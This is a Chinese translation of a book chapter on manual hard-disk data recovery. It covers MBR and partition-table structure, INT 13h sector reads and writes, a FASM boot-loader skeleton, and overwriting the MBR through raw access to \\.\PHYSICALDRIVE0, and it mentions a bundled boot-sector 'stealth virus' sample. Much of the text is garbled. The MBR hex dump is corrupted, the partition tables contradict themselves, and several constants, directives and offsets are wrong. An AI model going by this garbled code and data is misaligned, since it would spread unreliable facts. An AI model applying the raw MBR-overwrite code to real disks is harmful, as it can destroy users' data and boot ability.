因此，BIOS 仅为柱面寻址分配了 10 位；因此，磁盘上的最大柱面数限制在 1024 个。由于头采用 4 位寻址，磁盘大小的字节数上限将为 `$512\times2^{10}\times2^{6}\times2^{4} = 536870912$` 字节，即 512 MB。这很荒谬，因为硬盘制造商早就打破了这一屏障。从那时起，已经取得了许多其他技术进展。MS-DOS 已经消失，而取代它的 Windows 操作系统通过其内置驱动程序与磁盘工作。因此，BIOS 施加的限制不会影响它。嗯，在实际上并不会影响它——毕竟，BIOS 负责操作系统的首次引导。如果系统组件位于超出 1024 限制的扇区，操作系统将无法启动。请注意，这适用于所有操作系统，而不仅仅是对于关键的 Windows。

为了克服这个问题，BIOS 中引入了一个额外的转换层级（大容量模式），它允许使用 8 位进行头寻址，从而允许增加头的数量，这与磁盘控制器分配的 4 位相比。因此，允许的最大磁盘大小字节数为 `$512 \times 2^{10} \times 2^6 \times 2^8 = 8589934592$` 字节，即 8 GB。然而，这只是一个理论限制；在实践中，这是另一回事。大多数 BIOS 实现都包含严重的 Bug；因此，当与大于 2 GB 的磁盘工作时，它们要么挂起，要么开始丢失所有关键结构的最有效位，因为 BIOS 开始对磁盘的起始扇区进行寻址。许多现代 BIOS 实现不允许寻址超过 64 个虚拟头，这使得允许的最大磁盘大小同样限制在 2-GB 范围内。因此，如果你在大于 2 GB 的逻辑磁盘上重新安装 Windows，系统可能会停止引导。为什么会发生这种情况？

如果你仔细考虑这种情况，你就会理解，当系统安装在新格式化的磁盘上时，它会将所有文件放在开头。随着磁盘填满，空闲空间向磁盘末尾移动。碎片整理软件也可以移动引导文件。诚然，大硬盘的所有者建议将磁盘划分为多个分区，系统分区大于 8 GB（这似乎更可靠）。

SCSI 设备从诞生起就支持一种被称为逻辑块寻址（LBA）的逻辑寻址机制，它从零到磁盘最后一个扇区进行编号。IDE 设备直到 `ATA-3` 出现才支持 LBA，但这种寻址机制很快流行起来。在 SCSI 中，LBA 是固生的。这些 28 位如列表 5.3 所示。


# 第 5 章：手动数据恢复的基本概念

## 5.3.LBA 模式下 IDE 磁盘的接口

| 端口 | 数值 |
|---|---|
| `0172/01F2` | 扇区数量 |
| `0173/01F3` | 扇区号（位 0-7） |
| `0174/01F4` | 扇区号（位 8-15） |
| `0175/01F5` | 扇区号（位 16-24） |
| `0176/01F6` | 扇区号（位 24-28），总线上的驱动器（位 4），CHS/LBA 模式（位 6） |

如所示，LBA 比 CHS 支持更大的磁盘。然而，仍然存在限制。28 位 LBA 寻址支持 128 GB 的磁盘。为了支持更大的磁盘，引入了 32 位 LBA，它支持高达 2 TB。对于更大的磁盘，使用了 48 位 LBA，它支持 128 PB 并随 ATA-6 引入。

## 86 页 第二部分：自动与手动硬盘数据恢复

## 初始故障诊断

要进行手动数据恢复，至关重要的是首先诊断故障的可能原因。磁盘故障的主要症状概述在表 5.1 中。

表 5.1 硬盘故障的主要症状

| 症状 | 诊断 | 纠正措施 |
| --- | --- | --- |
| BIOS 无法识别硬盘。 | 硬盘电子电路故障。 | |
| 操作系统无法启动且 BIOS 显示错误信息 | 从软盘启动时逻辑磁盘不可见（执行 `C:` 命令时返回错误）。 | 可能是分区表或 `55h` 签名已损坏。 | 手动恢复 `MBR` 或使用 `GetDataBack` 工具。 |
| 未找到系统盘或缺少操作系统。 | 逻辑磁盘可见且健康（如 `C:` 和 `dir` 命令可用）。 | 可能是引导扇区或 `MBR` 已损坏。 | 启动恢复控制台并执行以下命令：`FIXMB` 和 `FIXBOOT`。 |
| | 逻辑磁盘可见，但 `C:` 命令返回错误。 | 可能是引导扇区或 `MFT` 已损坏。 | 手动或从备份副本恢复引导扇区，从 `MFTir` 恢复 `MFT`。 |

## 第 5 章：手动数据恢复的基本概念 87

## 表 5.1 续

| 症状 | 诊断 | 纠正措施 |
|---|---|---|
| 操作系统开始启动后挂起，或启动过程被错误消息中断。 | `dir C:` 命令执行正常，`ChkdSk` 未检测到任何错误。 | 操作系统崩溃。 | 重新安装操作系统，先将所有价值文件复制到其他介质。 |
| 在一个或多个子目录中使用 `dir` 命令无法显示所有文件或输出乱码。 | `MFT` 或其任一子结构已损坏。 | 启动 `DiskExplorer` 并直接从 `MFT` 读取所有文件，跳过索引。 |
| 某些文件无法读取；当此情况发生时，磁盘发出刮擦声。 | 磁盘物理表面已损坏。 | 启动厂家提供的磁盘恢复工具。 |
| 某些文件包含其他文件的碎片。 | 磁盘上出现了簇重叠。 | 启动 `ChkdSk`。 |
| 空闲磁盘空间在没有明显原因的情况下持续减少。 | 丢失了某些簇。 | 启动 `ChkdSk`。 |

## 主引导恢复基础

第一批硬盘的容量很小（即使在那个时代也是如此），其格式化方式与软片的格式化类似。然而，它们的容量迅速增长，很快 MS-DOS 就无法提供足够的地址空间来完全利用物理可用磁盘空间。为了克服这一局限性，引入了*分区*机制，该机制将一个物理磁盘划分为几个逻辑驱动器。每个逻辑驱动器都有自己的文件系统，并独立于其他驱动器进行格式化。开发者是如何实现这一点的？

物理磁盘的第一个扇区（柱面 0/磁头 0/扇区 1）存储了一个名为主引导记录（`MBR`）的特殊数据结构。它由两个主要部分组成——主引导代码和分区表，后者描述了每个逻辑磁盘的划分方法和几何结构。图 5.1 显示了已分区磁盘的示意图。在扇区的末尾，偏移量 `1FE` 处，有一个 `55AAH` 签名，BIOS 据此判断该扇区是否可启动。即使你不想将磁盘划分为分区并将其格式化为单个驱动器，也需要 `MBR` 的存在。

启动时，BIOS 选择可启动磁盘。通常情况下，这是主磁盘；但大多数 BIOS 实现都允许你更改启动顺序，最先进的会在用户在上电自检（`POST`）期间按下 `<ESC>` 键进入 BIOS 设置程序时显示交互式菜单。然后，BIOS 读取第一个扇区，将其加载到内存的 `0000h:7C00h` 地址处，检查扇区末尾是否存在 `55AA` 签名，如果找到签名，则将控制权交给 `0000h:7C00h`。如果不是如此，BIOS 将分析启动顺序列表中的后续启动设备。如果系统中没有其他可启动设备，BIOS 将显示错误消息。

引导加载程序接收到控制权后，扫描分区表（已加载到内存中）。它找到活动分区（该分区中的一个，也称为引导扇区），将其加载到内存的 `0000h:7C00h:7C00h` 地址处（在重写之前已预重定位了主体）。之后，它确保 `55AA` 签名存在并将控制权交给 `0000h:7C00h`。如果不是如此，则显示错误消息，并在用户按下任意键后重启计算机。有些加载程序支持多个活动分区并按顺序对它们进行测试；然而，这完全取决于开发者，因为这不符合微软的标准规范。但这并没有打扰到任何人。

| C | D: | E: | F: |
|---|---|---|---|

- 分区表

图 5.1 分区磁盘示意图

如果引导加载程序损坏，BIOS 将无法从磁盘启动，由于分区表损坏...（此处略，原文逻辑衔接处，此处根据翻译要求提供完整翻译）

# 第二部分：自动与手动硬盘数据恢复

每道 63 个扇区

每个扇区 512 字节

12 种介质

LBN 0 [ C, 0, H, 0, S 1 ]

## 主引导记录 (Master Boot Record)

| B | FS TYPE | START | END | RELATIVE | TOTAL |
| F (hex) | C | H | S | C | H | S | | | |
| * | 07 | 0 | 1 | 764 | 254 | 63 | | 63 | 1228962 | |
| | 0F | 765 | | 1 | 1023 | 254 | 63 | | 12289725 | 17687565 | |
| | 00 | | 0 | | 0 | 0 | 01 | | 0 | 0 |
| | 00 | | 0 | | 0 | 0 | 01 | | 0 | 0 |

LBN 12289725 [ C, 765, H, 0, S 1 ]

## 扩展引导记录 (Extended Boot Record)

| B | FS TYPE | START | END | RELATIVE | TOTAL |
| F (hex) | C | H | S | C | H | S | | |
| | 07 | 765 | 1 | 1023 | 254 | 63 | | 63 | 8193087 | |
| | 05 | 1023 | | 1 | 1023 | 254 | 63 | | 81931510 | 40965757 | |
| | 00 | | 0 | | 0 | 0 | 01 | | 0 | 0 |
| | 00 | | 0 | | 0 | 0 | 01 | | 0 | 0 |

LBN 20482875 [ C, 1275, H, 0, S 1 ]

## 扩展引导记录

# 第五章：手动数据恢复的基本概念

| B | FS TYPE | START | END | RELATIVE | TOTAL |
| F (hex) | C | H | S | C | H | S | RELATIVE | TOTAL |
| | 07 | 1023 | 1 | 11023 | 254 | 63 | 63 | 4096512 |
| | 05 | 1023 | 0 | 11023 | 254 | 63 | 12289725 | 5397840 |
| | 00 | 0 | 0 | 0 | 0 | 0 | 0 | 0 |
| | 00 | 0 | 0 | 0 | 0 | 0 | 0 | 0 |

LBN 24579450 [C 1530, H 0, S 1]

## 扩展引导记录

| B | FS TYPE | START | END | RELATIVE | TOTAL |
| F (hex) | C | H | S | C | H | S | RELATIVE | TOTAL |
| | 07 | 1023 | 1 | 11023 | 254 | 63 | 63 | 5397777 |
| | 00 | 0 | 0 | 0 | 0 | 0 | 0 | 0 |
| | 00 | 0 | 0 | 0 | 0 | 0 | 0 | 0 |
| | 00 | 0 | 0 | 0 | 0 | 0 | 0 |


如果分区表损坏或损坏，逻辑磁盘将不可用（在这种情况下 `C:` 命令会报错），或者随后的格式化将覆盖相邻分区的数据或截断当前分区。如果主记录指向自身或分区链中的某个分区，所有已知的操作系统即使磁盘作为从盘连接也会被冻结。解决这个问题有几种方法，最简单的方法是通过 BIOS 或输入/输出端口热插拔磁盘。另一种方法是纯技术性的，通过将 `55AAh` 修改为其他值，使其无法识别分区表，从而无法进行分析。作为一种变体，你可以向软盘引导区写入一个特殊准备的程序，填充 MBR 为零或更改其签名。之后，只需从软盘启动。

使用任何磁盘编辑器（例如 Microsoft Disk Probe）读取物理磁盘的第一部分。它应该像图 5.4 所示，除非它按照表 5.2 进行了格式化。

图 5.4. MBR 外观

表 5.2. MBR 格式

| Offset | Size | Description |
|---|---|---|
| 0x000 | Variable | 主引导程序 |
| 0x1BB | 4h | 磁盘标识符 |
| 0x1BE | 10h | 分区 1 |
| 0x1CE | 10h | 分区 2 |
| 0x1DE | 10h | 分区 3 |
| 0x1EE | 10h | 分区 4 |
| 0x1FE | 2h | 分区标识符 — 55AA |

前 1BB 字节被引导程序代码和数据占据，其中字符串是可见的。微软在本地化引导程序时犯了一个明显的错误。BIOS 不包含本地语言字体；因此本地化字符串将显示为乱码。在 1BB 偏移处有一个 4 字节磁盘标识符，由 Windows 在启动时强制分配。如果标识符被意外写入引导程序，这会毁掉它。因此，最好不要碰 1BB–1BE 字节。从 1BE 偏移开始是分区表，它由四个分区类型记录组成。分区表的格式见表 5.3。每个分区描述其自己的逻辑磁盘，允许你在每个硬盘上创建最多四个分区。Windows 2000 引入的动态磁盘存储在 LDM 数据库中，不需要出现在分区表中。

表 5.3. 分区记录

| Offset | | | | Description |
|---|---|---|---|---|
| 000 | 1BE | 1CE | 1DE | 1EE | 引导指示：80h — 活动分区；00h — 分区不可引导 |
| 001 | 1BF | 1CF | 1DF | 1EF | 分区起始头 |
| 002 | 1C0 | 1D0 | 1E0 | 1F0 | BYTE | 分区起始扇区（0–5位），起始柱道的高位（6–7位） |
| 003 | 1C1 | 1D1 | 1E1 | 1F1 | BYTE | 起始柱道的低位（0–7位） |
| 004 | 1C2 | 1D2 | 1E2 | 1F2 | BYTE | 系统标识符（引导 ID）；见表 5.4 分区结束头 |
| 005 | 1C3 | 1D3 | 1E3 | 1F3 | BYTE | 分区结束扇区（0–5位），结束柱道的高位（6–7位） |
| 006 | 1C4 | 1D4 | 1E4 | 1F4 | BYTE | 结束柱道的低位（0–7位） |
| 008 | 1C6 | 1D6 | 1E6 | 1F6 | DWORD | 分区相对于分区表起始位置的偏移量（扇区） |
| 00C | 1CA | 1DA | 1EA | 1FA | DWORD | 分区的扇区数 |

表 5.4. 可能的引导 ID 值

| Boot ID | 分区类型 |
| --- | --- |
| 00h | 空闲分区 |
| 0x01 | FAT12（少于 32,680 个扇区，或 16 MB） |
| 0x04 | FAT16（32,680–65,535 个扇区，或 33 MB） |
| 0x05 | 扩展分区 |
| 0x06 | BIGDOS FAT16（33 MB–4 GB） |
| 0x07 | NTFS 分区 |
| 0x0B | FAT32 分区 |
| 0x0C | 带有 BIOS 13h 支持的 FAT32 分区 |
| 0x0E | 带有 BIOS 13h 支持的 BIGDOS FAT16 分区 |
| 0x0F | 带有 BIOS 13h 支持的扩展分区 |

表 5.4. 续

| Boot ID | 分区类型 |
| --- | --- |
| 0x12 | EISA 分区 |
| 0x42 | 动态磁盘 |
| 0x86 | Legacy 的 FAT16 分区 |
| 0x87 | Legacy 的 NTFS 分区 |
| 0x8B | 经过 FAT32 格式化的 Legacy卷 |
| 0x8C | 使用 BIOS 13h 扩展格式化的 Legacy FAT32 卷 |

## 恢复主引导记录的技术

有很多用于自动恢复引导代码和分区表的工具（GetDataBack、EasyRecovery、Active Data Recovery Software 等）。在此之前，它们成功处理了恢复被破坏分区表的任务。然而，随着使用各种扩展突破 2 GB 边界的大型磁盘出现，这些工具已经失效。因此，你不应该依赖它们。如果你不想丢失数据，请手动恢复损坏的 MBR，特别是因为这是一个不需要专家技能的简单操作。如果你拥有 Sector Inspector 或类似工具创建的分区表副本，恢复过程将大大简化。如果操作系统拒绝启动，并且 BIOS 通过显示“disk boot failure or non-system disk or disk error... Enter to restart”来报错，这意味着 `55AAh` 签名损坏或损坏。

> 区分由引导程序和扇区显示的 BIOS 信息至关重要。进入 BIOS 设置，禁用除 A 器以外的所有启动设备。然后在在不插入软盘的情况下重启，并记住屏幕上出现的消息。这将是 BIOS 的错误信息。

# 第二部分：自动与手动硬盘数据恢复

可以使用任何磁盘编辑器来恢复 `55h AA` 签名。然而，在进行此操作时，请确保磁盘开头有一个主引导代码（如果你无法在脑中对其进行反汇编，请使用 `IDA` 或 `HIE`）。即使使用这些工具也无法反汇编？那么请尝试从视觉上评估引导程序的合理性水平（你仍然需要一些处理代码的经验）。任何标准加载程序的开头必须包含大约 100 字节的机器码，其中可以找到以下序列：`00 7C`, `1B 7C`, `BE 07`, `CD 13`, `CD 18`, `CD 10` 和 `55 AA`。其后是典型的文本消息，如“Invalid partition table（无效的分区表）”、“Error operating system（操作系统错误）”和“Missing operating system（缺少操作系统）”。如果加载程序已损坏但 `55 AA` 签名完好无损，那么任何从此类磁盘启动尝试都会导致系统挂起。

你可以使用 `fdisk` 工具并配合 `/MBR` 命令行选项来恢复丢失或损坏的主引导加载程序。这将把标准引导代码写入第一个磁盘的 MBR。顺便提一下，MS-DOS 7.0 引入的未文档 `/MBR` 命令行选项允许你选择任何连接的硬盘。也可以使用 Windows 2000 恢复控制台 `FIXMBR` 命令。

> 如果你使用了非标准加载程序（如 `LILILO`）

如前所述，某些加载程序会更改硬盘地址的转换方法。因此，如果你使用标准加载程序，该磁盘将无法使用。如果是此类情况，请尝试从发行盘重新安装加载程序；也许这会有帮助。否则，剩下的工作就是编写自定义加载程序，确定磁盘几何结构并以适当的方式翻译扇区地址。这项工作非常困难，需要深厚的编程技能和技术知识。因此，本文将不再涉及。

如果加载程序提示你“Invalid partition table（无效的分区表）”，这并不意味着分区表已损坏。这可能意味着两个主分区都没有标记为活动（active）。如果你正在使用从扩展分区启动操作系统的非标准加载程序，可能会发生这种情况。

## 第5章：手动数据恢复的基本概念

在你发出 `FDISK MBR` 命令或安装了自动将标准主引导加载程序替换为自定义加载程序的操作系统后，该加载程序将检测不到任何用于启动的活动分区。它会爆发出一串脏话。这种行为在 Windows 98 中特别为典型。要解决这个问题，要么恢复原始加载程序，要么在主分区上安装操作系统并使用 `fdisk.exe` 将其标记为活动。

从系统软盘（来自另一块硬盘或引导光盘）启动并检查你的逻辑磁盘是否可见。如果是，你可以轻松继续后续步骤；否则，请鼓起勇气，准备动手操作并动用脑筋。

在大多数情况下，由 `fdisk.exe` 或磁盘管理器（Disk Manager）创建的主分区很容易恢复。其他分区通常不需要恢复，因为最常损坏的是 MBR。分布在磁盘上的扩展分区通常只在显式使用 `fdisk.exe` 或磁盘管理器删除分区时才会丢失。


第一个逻辑磁盘的起始扇区地址始终等于 `0/1/1` (CHS)。相对扇区是硬盘磁头数减 1（磁盘几何信息可以通过任何磁盘编辑器获取，包括 `Sector Inspector`）。确定最后一个扇区的任务更为困难。如果引导扇区未被损坏（参见“引导扇区恢复技术”），则可以通过增加 `BootRecord.NumberSectors` 字段的值来确定分区的扇区总数。那么最终磁柱将等于 `LastCyl := TotalSectors/(Heads*SecTrack)`，其中 `Heads` 是物理磁盘上的磁头数，`SecTrack` 是每道道的扇区数。最后一个磁头数等于：

```
LastHead := (Total Sector - (LastCyl*Heads SecTrack))/SecTrack,
```

最后一个扇区等于：

```
LastSec := (Total Sector - (LastCyl*Heads SecTrack)) % SecTrack.
```

将获得的值写入 `MBR`，并检查在计算的分区结束处之后是否有另一个分区。这必须是一个扩展分区表或引导扇区。如果是这种情况，请在分区表中创建另一个记录并根据需要进行填充。

如果引导扇区丢失且无法恢复怎么办？你能恢复分区表吗？这是可以的。只需要通过搜索在后续分区的末尾寻找 `55h AA` 签名即可。区分引导区和分区很容易（引导扇区在起始位置偏移 2 字节处存储制造商标识符，如 `NTFS` 或 `FAT`）。当前分区的大小比实际少一个扇区；已知磁盘的大小和几何结构，就可以计算出结束的 `CHS`。请记住 `Windows` 会存储引导扇区的副本，根据版本的不同，副本可能位于中间或末尾。其他副本可以在备份文件和交换文件中找到。顺便提一下，建议查看这些文件以检查它们是否包含内容。如果副本是原始的，内部系统结构位于距离起始位置大致相同的偏移处（对于 `NTFS`，这将是 `$MFT`）。

如果分区边界确定不正确会怎样？如果你通过增加分区大小超过了必要范围，一切操作将正常运行，空闲空间映射存储在特殊的结构中（对于 `NTFS`，这是 `$bitmap`；对于 `FAT16/32` 是 `FAT` 本身），超出边界的扇区只有在重新格式化分区后才会添加。如果你只需要从其他介质拷贝数据，则不需要调整分区表中的参数。这种方法适用于恢复磁盘的分区。对于所有其他分区，你需要确定起始扇区。这必须正确完成，因为即使差一个扇区，整个机制都会变得失效。幸运的是，这些结构中的某些引用了自身，提供了一些线索。特别是，如果你只找到第一条记录，你将找到当前扇区的数量（前提是你可以确定每个簇的扇区数，但这是在本章稍后的“引导基础”部分中将涵盖的话题）。

## 零道问题

`MBR` 严格绑定到第一个扇区。典型的 `MBR` 内容如列表 5.5 所示。因此，如果第一个扇区恰好被破坏，将无法处理此类磁盘。直到最近，该问题是通过逐扇区复制磁盘来解决的，将数据迁移到具有相同几何结构的健康硬盘上，然后恢复 `MBR`。情况发生了变化。现代硬盘支持从备用区域强制替换坏道（某些磁盘甚至会自动执行此操作），因此困扰程序员的软磁盘和 8 位机时代的“零道问题”已经消失。这种扇区替换机制尚未标准化，由特定的磁盘提供。

```
### Listing 5.5 A typical MBR sector
0x0000  eb 2e 49 50 41 52 20 63 64 74 00 00  -IPART .00
0x0010  20 20 2d 49 65 6d 67-61 21 43 63 72 70  - Imagor
0x0020  61 74 69 66 65 20 2d 31 32 32 29 39 00  ation -11/23/90
0x0030  fa 8c 7c 8d 6e 80-7c-7e 88 09 09 70  - .N....|
0x0040  b0 7f 0e 72 70 73-a9 00 02 fb 8d  - .|..|
0x0050  fd 6e 01 89 04 00-8a 74 00 83 10 6e  ||..A:T
0x0060  f6 6b 85 32 82 01 51-63 64 49 03 80 3a  |..WQTy.J|-
0x0070  75 75 85 5b 8d 01 0e-b3 5f 56 58 12 8a 72  |..?Vkkr
0x0080  8a 4a 02 8a 6a 03 00-7c 25 05 56 58 01  KJ.Kj..
0x0090  cd 73 0e 33 c0 13-c5 14 75 70 85 8b  ..s.3|..NU
0x00a0  eb 16 5e 7e 7d 81 3c-55 74 06 8b 85 b6 01  ..BUKT.J
0x00b0  0e 06 05 03 75 49 8e-d8 01 00 85 b5 88  ...H^..
0x00c0  14 00 04 16 33 c0-c8 02 27 06 72 04 34  |.-|..r.4
0x00d0  12 ea f4 00 00 05-3ac 30 07 54 76 54 04  ..E.I.t.V.-
0x00e0  b7 07 00 10 5e 80-f0-43 69 72 71 61 69  |..-Invalid
0x00f0  20 70 71 72 63 74 69-6f 72 62 61 65  partition table
```

## 创建引导记录

在本节中，我将演示如何编写一个自定义的多引导管理器（multiboot manager）。多引导管理器是存储在引导扇区的代码，根据你的选择，它可以引导计算机上安装的任何操作系统。在实现此任务时，你将熟悉 `INT 13h` 中断、分区表以及许多其他有趣的内容。大多数操作系统默认安装的标准加载器过于原始，不值一谈。从另一方面角度来看，非标准的第三方加载器通常既臃肿又不可靠。因此，黑客的方法是编写一个自定义的加载器。在编写它时，你将学习汇编语言的“道与禅”，学习如何在没有调试器的情况下调试程序，并领略磁盘硬件的魅力。

### INT 13h 接口

可以通过输入/输出端口和 `BIOS` 来控制硬盘。通过端口控制磁盘的技术更强大且更有趣；然而，对 `BIOS` 编程则要容易得多。此外，`BIOS` 支持各种驱动器，抽象了每个特定模型所典型的的设计特征。因此，我选择使用 `BIOS`，确切地说，使用 `INT 13h` 中断接口。

# 第 5 章：手动数据恢复的基本概念

尝试以 `CHS` 模式从磁盘读取一个扇区。在执行时，必须从 `MBR` 或在“裸机”`MS-DOS` 下操作；否则你将会失败，因为 `Windows NT` 即使通过 `MS-DOS` 模拟也会阻止对磁盘的直接访问。

功能号加载到 `AH` 寄存器中。如果是读取，它等于 `2`。`AL` 寄存器负责处理的扇区数量。由于每次读取一个扇区，因此将此寄存器设置为 `1`。`DH` 寄存器存储头号，`DL` 存储驱动器号（`80h` 代表第一块磁盘，`81h` 代表第二块，以此此类推）。`CL` 寄存器的低 5 位指定扇区号，`CH` 寄存器的剩余位决定必须读取的磁道数。`ES:BX` 寄存器对指定目标缓冲区地址。就是这些。执行 `INT 13h` 命令后，数据将被加载到缓冲区中。如果发生错误（例如，如果读/写遇到坏道），`BIOS` 将设置进位标志位（carry flag），加载器将重复读取尝试或显示错误信息。

汇编语言代码如列表 5.6 所示。

### 列表 5.6. 读取引导扇区或扩展分区表的代码

```
MOV SI, 1BEH             ; 跳到第一个分区。
MOV AX, CS               ; 设置 ES。
MOV ES, AX               ; 
MOV BX, buf             ; 缓冲区偏移
read_all_partitions:
  MOV AX, 0201h          ; 从磁盘读取扇区 1 号。
  MOV DL, 80h             ; 从第一块磁盘读取。
  MOV DH, [SI+1]           ; 起始头
  MOV CX, [SI+2]           ; 起始扇区和磁道
INT 13h                ; 读取错误

; 处理读取引导扇区或扩展分区表。
# 第二部分：自动与手动硬盘数据恢复

```

`CMP byte [SI], 80h`

`JZ LOAD_BOOT ; 这是引导分区`

   ; 将控制权交给它。

```

```

`CMP byte [SI+4], 05h`

`JZ LOAD_CHS ; 这是扩展分区`

   ; 采用 CHS 格式。

```

```

`CMP byte [SI+4], 0Fh`

`JZ LOAD_LBA_EXT ; 这是扩展分区`

   ; 采用 LBA 格式。

```

```

`ADD SI, 10h`

`CMP SI, EEh`

`JNA read_all_partitions ; 逐个读取所有分区。`

```

```

`buf rb 512 ; 512 字节缓冲区`


CHS 模式下的扇区写入方式与读取方式几乎相同；然而，`AH` 寄存器的值等于 `03h` 而不是 `02h`。处理 LBA 模式稍微困难一些；然而，对于真正的黑客来说，这个任务是不可能的。使用 `42h` 功能（`AH = 42h`）读取扇区。之前的 `DL` 寄存器必须包含驱动器号。`03:SI` 寄存器对指向磁盘地址包，这是一个如表 5.5 所示的高级结构。

表 5.5. LBA 模式下用于扇区写的磁盘地址包

| 偏移量 | 类型 | 说明 |
|---|---|---|
| 00h | BYTE | 数据包大小 — 10h 或 8h |
| 01h | BYTE | 预留且必须为零 |
| 02h | WORD | 要读取的扇区数量 |
| 04h | DWORD | 段格式下目标缓冲区的 32 位地址 |
| 08h | QWORD | 要读取扇区的起始号 |
| 10h | QWORD | 目标缓冲区的 64 位地址（仅当 32 位地址等于 FFFF 时使用） |

# 第 5 章：手动数据恢复的基本概念

通常，LBA 模式下读取扇区的代码如 5.7 所示。

### 列表 5.7. 在 LBA 模式下从磁盘读取扇区

```
MOV DI, 1BEh               ; 跳到第一个分区。

MOV AX, CS                 ; 配置段

MOV buf_seg               ; 

MOV EAX, [DI+08h]         ; 分区相对于分区起始的偏移

ADD EAX, EDI              ; EDI 包含 MBR 的扇区号

read_all_partitions:       ; 

    MOV AH, 42h            ; LBA 模式下读取扇区。

    MOV DL, 80h            ; 从第一块磁盘读取。

    MOV SI, dap            ; 指向地址包

    INT 13h                ; 读取错误

    JC error               ;

dap:

packet_size db 10h         ; 数据包大小为 10h。

reserved     db 00h      ; 预留

N_SEC        dw 01h      ; 要读取的扇区。

buf_seg      dw 00h      ; 缓冲区的段

buf_off      dw buf      ; 缓冲区偏移

X_SEC        dd 0        ; 目标缓冲区的 64 位地址（实际中未使用）

buf rb 512                 ; 512 字节缓冲区
```

写入操作的执行方式类似；但这次 `AH` 寄存器必须等于 `43h` 而不是 `42h`。`AL` 寄存器定义模式：
如果位设置为 0，BIOS 不执行写入操作，而是进行模拟。如果 `AL` 为零，则默认执行写入操作。

现在，考虑了磁盘中断后，有描述其他编程问题。

## 创建加载器代码

编程工具的选择取决于个人喜好，但我认为 `FASM` 是此目的的最佳工具。从汇编语言的角度来看，加载器是一个普通的二进制文件，其允许的最大大小为 `1BBh`（443 字节）。太小了？不要急于下结论。每个分区都从磁道开始，这意味着在 MBR 和分区开始之间始终有空扇区。几乎所有现代硬盘每磁道有 64 个扇区。使得 `443 + (63 * 512) = 32.69 KB`，大约 32 KB。这个容量允许创建一个带有鼠标支持和壁纸的图形用户界面。然而，真正的黑客不受这种可能吸引，他们更喜欢在命令行模式下工作。

正如，BIOS 将 MBR 加载到 `7C00h` 地址。因此，加载器的汇编代码必须以 `CRG 7C00` 指令开始，最好使用 `USE16`，因为加载器运行在 16 位实模式下。以后如果需要，可以切换到保护模式；目前无需深挖。

定位引导分区后（可以通过分区起始处的 `80h` 标志检测），加载器必须读取分区的第一个扇区并将其加载到内存中的 `0000:7C00h` 地址——也就是说，正好覆盖其自身。为了避免系统崩溃，加载器必须预先将其自身移动到另一个地方。通常，此任务使用 `MOVSB` 命令完成。目标位置可以是内存中的任何位置，从 `0080:0067h` 到 `9FE00h`。

# 第 5 章：手动数据恢复的基本概念

请记住，在任何情况下都不要触碰 `DL` 寄存器，因为它用于传递启动驱动器的数量。某些加载器（`loader`）的实现方式非常拙劣，以至于它们从第一块硬盘加载。它们的开发者竟然不知道这一点，真是可耻。自从 BIOS 开始允许更改启动顺序以便任何驱动器都能启动以来，已经过去十年了。

据我所知，`FASM` 是唯一能直接识别 `JMP 0000:7C00h` 远跳转指令的汇器。所有其他汇器都要求程序员使用组合命令，其形式大致如下：
`PUSH offset_target`
`PUSH segment_of_target`
`RET`.
这些命令将目标地址的段（`segment`）和偏移量（`offset`）推入栈中，然后执行远返回（`far RET`），跳转所需的位置。此外，还可以通过“手动”汇编 `JMP FAR` 命令，或者简单地在段中使用源地址定位目标地址（例如，`0000:7C00h → 0000:7E00h`）来使用自修改代码。然而，这些方法既不方便又繁琐。

通常，加载器的“骨架”可能如列表 5.8 所示。

### 列表 5.8. 用 FASM 编写的最加载器骨架

```
use16

ORG 7C00h

CLD                 ; 从左向右复制（地址向上增长）。

MOV SI,7C00h      ; 源位置

MOV DI,7E00h       ; 目标位置

MOV CX,200h        ; 扇长度

REP MOVSB           ; 复制

; 选择从哪个分区启动。

; 将其读取到内存地址 0000:7C00h 

;（参见列表 5.7 和 5.6）。

JMP 0000:7C00h      ; 将控制权交给引导扇。
```

## 将加载器写入主引导记录 (MBR)

在 MS-DOS 下，将自定义加载器写入 MBR 是一项轻而易举的任务。要实现这一目标，只需使用 `INT 13h` 中断并调用 `03h` 函数（写扇）即可。然而，在 Windows NT 下这种技术不起作用；因此，必须使用 `CreateFile` 函数。如果你指定要打开的文件名（例如，`\PHYSICALDR0` 是第一块硬盘），你就可以通过 `ReadFile` 和 `WriteFile` 调用轻松地读取和写入其扇区。同时，`dwCreationDisposition` 标志必须设置为 `OPEN_EXISTING`，且 `dwShareMode` 必须设置为 `FILE_WRITE`。此外，你将需要 root 权限；否则将失败。

列表 5.9 展示了一个 `CreateFile` 用的示例。

### 列表 5.9. 在 Windows NT 下获取硬盘的直接访问

```
XOR EAX, EAX

PUSH EAX                               ; tTemplate

PUSH dword FILE_ATTRIBUTE_NORMAL      ; dwFlagsAndAttributes

PUSH dword OPEN_EXISTING             ; dwCreationDisposition

PUSH EAX                               ; lpSecurityAttributes

PUSH dword FILE_SHARE_WRITE          ; dwShareMode

PUSH dword (GENERIC_WRITE OR GENERIC_READ) ; dwDesiredAccess

PUSH DEVICE_NAME                       ; Device name

CALL CreateFile                        ; 打开设备

INC EAX

TEST EAX, EAX

JZ  error

DEC EAX

...

DEVICE_NAME DB "\\.\PHYSICALDRIVE0", 0

BUF RB 512                           ; Buffer
```


打开物理磁盘后，有必要确保此操作成功，将原始 MBR 扇区读取到缓冲区，并覆盖前 `1Bh` 字节，同时不要触碰分区表和 `55 AAh` 签名（否则你将导致磁盘无法启动）。现在，只需将更新后的 MBR 写回原始位置并关闭设备句柄。所有更改将在重启后生效（如果你犯了错误，它们将不会生效）。加载器对细微设计错误的报复是极其可怕的。因此，如果你想避免丢失现有分区的所有内容，最好在 VMware 或任何其他 PC 模拟器上进行练习。

在 Windows 9x 下，`CreateFile` 的技巧不起作用。但在这些系统中，可以恢复到 DOS 保护模式接口（DPMI）中断模拟或使用 ASPI 驱动程序。这两种方法在 Kris Kaspersky 的《CD Cracking Uncovered》中均有详细介绍。虽然这本书讨论的是 CDR 而不是硬盘，但硬盘驱动器的编程方式是相似的。

在开始开发自己的自定义加载器之前，我建议你仔细研究现有的加载器。书中附带的 CD 中提供了一些为此目的专门挑选的加载器源代码。所有加载器均带有针对普通公众的限制或 BSD 许可协议：

- `ge2000.asm` — 这是一个经过仔细注释的隐身病毒，它用自己的加载器替换了系统加载器。注意，这种病毒没有危险性，因此可以用于教育目的。
- `mbr.asm` — 这是一个极其简单但功能全加载器，支持大于 8 GB 的分区。
- `boot.asm` — 这是一个优秀的多引导管理器，附有详细的注释。它会切换到保护模式，并可以从软盘、CD Zip、硬盘等启动。它支持大于 8 GB 的分区，并显示启动指示器。
